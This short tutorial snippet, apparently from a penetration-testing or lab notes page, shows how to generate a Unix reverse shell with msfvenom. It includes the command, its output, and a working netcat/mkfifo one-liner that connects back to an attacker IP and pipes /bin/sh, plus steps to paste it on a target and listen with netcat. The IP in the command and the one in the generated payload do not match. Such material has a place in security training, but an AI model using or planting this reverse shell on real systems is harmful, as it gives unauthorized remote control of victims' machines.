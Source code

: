 
- First use the command on the local computer :
	(Ex: To create A reverse Shell on port 4444)
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.186.60 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 103 bytes
mkfifo /tmp/wqlcxyz; nc 10.100.186.60 4444 0</tmp/wqlcxyz | /bin/sh >/tmp/wqlcxyz 2>&1; rm /tmp/wqlcxyz
```

```bash
-p = payload
lhost = our local host IP address (this is your machine IP address)
lport = the port to listen on (this is the port on **your** machine)
R = export the payload in raw format
```


- Copy the payload :
```mkfifo /tmp/wqlcxyz; nc 10.100.186.60 4444 0</tmp/wqlcxyz | /bin/sh >/tmp/wqlcxyz 2>&1; rm /tmp/wqlcxyz```
- And Paste it on the Target
- Run an Netcat instance before to receive the connection

